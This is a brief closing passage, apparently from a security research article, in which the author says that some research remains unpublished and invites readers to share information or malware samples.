There is of course a bunch of ongoing research that we can't publish right now, so this article is just the top level view on some stuff we've seen. But feel free to reach out (I'm not hard to find) if you have some interesting information, malware sample, or if you feel like we missed something.